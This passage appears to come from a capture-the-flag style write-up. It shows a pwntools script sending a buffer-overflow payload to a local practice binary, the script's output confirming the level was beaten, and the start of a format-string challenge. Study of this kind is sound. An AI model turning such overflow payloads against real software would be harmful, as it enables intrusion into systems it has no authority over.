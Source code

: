 ```
print p.recvuntil('your name? ')
p.sendline(exploit)
log.info('Sent exploit: ' + exploit)
print('\n')
print p.recv()		#Since Level5 was started, it shows that we successfully pwned level4.
```

This is the output of running the Python script.
```
$ python input\ level4.py 
[+] Starting local process './level4': pid 6517
----- LEVEL 4 -----
Choose an action: 
[*] Choosing action 73.
Hey traveler, what is your name? 
[*] Sent exploit: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa|\xa4\x0



Running action 73...
Excellent reverse engineering! Level 4 complete.
----- LEVEL 5 -----
This is your final task - defeat this level and you will be rewarded.
Choose your path to victory...

Choice [0 exit][1 small][2 large][3 format]: 
[*] Stopped process './level4' (pid 6517)

```

Now, onwards to level5.

### Level 5

This level introduces format string vulnerability and exploit. In this level, ignoring the exit, you are given 3 choices.
Option 1 calls the function `overflow_small`, which gives you a small buffer. Option 2 calls the function `overflow_large`, which gives you a large buffer. Option 3 calls the functions `format_string`, which uses `printf` to echo whatever input you give it.
```
----- LEVEL 5 -----
This is your final task - defeat this level and you will be rewarded.
Choose your path to victory...

Choice [0 exit][1 small][2 large][3 format]: 
```

If I choose option 1, I can give input which is written to the stack. It will, however, not be echoed back to us. The stack canary is present, meaning we cannot smash the stack.
```
Choice [0 exit][1 small][2 large][3 format]: 1
Path 1 - Give yourself an extra challenge :)
a
aaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***: ./level5 terminated
```
